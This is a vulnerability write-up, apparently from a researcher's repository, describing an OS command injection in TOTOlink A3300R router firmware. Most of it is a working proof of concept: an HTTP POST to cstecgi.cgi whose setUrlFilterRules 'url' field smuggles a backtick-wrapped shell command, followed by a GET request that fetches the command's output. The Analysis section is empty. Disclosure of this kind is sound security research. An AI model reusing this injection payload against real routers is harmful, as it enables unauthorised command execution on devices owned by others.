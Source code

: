 # TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection

## Product Information

Device: TOTOlink A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

![image-20240109124617070](D:\typora 图片\image-20240109124617070.png)

## Vulnerability Description

When deal with  `setUrlFilterRules` request,`url` parameter is vulnerable to OS command injection.

### POC

```
POST /cgi-bin/cstecgi.cgi?token=14059020E1AF92EC HTTP/1.1
Host: itotolink.net
Content-Length: 90
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://itotolink.net
Referer: http://itotolink.net/advance/urlf.html?token=14059020E1AF92EC
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

{"url":"funny-mud-peee`ls>/web/cmdi9.txt`","addEffect":"1","topicurl":"setUrlFilterRules"}
```

injection the command "ls>/web/cmdi9.txt"

![image-20240119133213218](D:\typora 图片\image-20240119133213218.png)

check the result.

```
GET /cmdi9.txt HTTP/1.1
Host: itotolink.net
If-Modified-Since: Mon, 24 Oct 2022 09:43:03 GMT
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Accept: text/css,*/*;q=0.1
Referer: http://itotolink.net/advance/urlf.html?token=14059020E1AF92EC
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

```

![image-20240119133218122](D:\typora 图片\image-20240119133218122.png)

## Analysis



